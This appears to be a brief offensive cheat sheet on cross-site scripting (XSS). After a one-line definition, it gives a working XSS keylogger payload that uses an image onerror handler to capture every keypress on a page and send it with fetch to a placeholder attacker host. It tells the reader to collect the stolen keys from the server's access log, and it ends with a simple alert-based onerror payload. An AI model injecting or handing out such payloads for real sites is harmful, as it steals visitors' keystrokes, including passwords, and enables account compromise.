 XSS (Cross-site Scripting)
======
XSS is a type of attack in which malicious scripts are injected and executed into the victim trusted website.

Simple XSS Keylogger
======
This simple keylogger send an request to the attacker website with the key that was pressed on the page
```html
<img src=x onerror='document.onkeypress=function(e){fetch("http://attacker.com?k="+String.fromCharCode(e.which))}, this.remove();'>
```
To check all the records, simply check your access.log on the server

XSS on EventListeners
======
#### onerror
Trigger the event by sending a malformed src attribute
```html
<img src=x onerror="alert('XSS')">
```

